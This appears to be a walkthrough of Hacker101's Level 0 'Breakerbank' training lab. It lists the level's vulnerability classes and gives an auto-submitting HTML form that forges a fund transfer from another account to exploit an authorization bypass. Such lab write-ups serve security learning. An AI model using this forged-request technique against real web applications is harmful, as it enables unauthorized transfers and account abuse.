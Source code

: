 # Level 0: Breakerbank 

```

		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Reflected XSS
		Authorization Bypass/Direct Object Reference

		Have fun!
		
```

## Authentication Bypass/Direct Object Reference

### POST form with any value after editing the page source starting from body 

```javascript
<body onload="javascript:a()"></body>
<script type="text/javascript">function a(){document.getElementById("button").click();}</script>
<h1>Breakerbank</h1>
Your account number: 961<br><br>
<form action="https://levels-a.hacker101.com/levels/0/" method="POST">
    <h2>Transfer Funds</h2><br>
    <input type="input" name="from" value="1"><br>
    <input type="input" name="to" value="961"><br>
    <input type="input" name="amount" value="99999999999"><br><br>
    <input id="button" type="submit" value="Transfer" >
</form>
```

***Upon successful code injection***
![Upon Successful code injection](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass0.png)

***After POST***
![After POST](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass1.png)

----
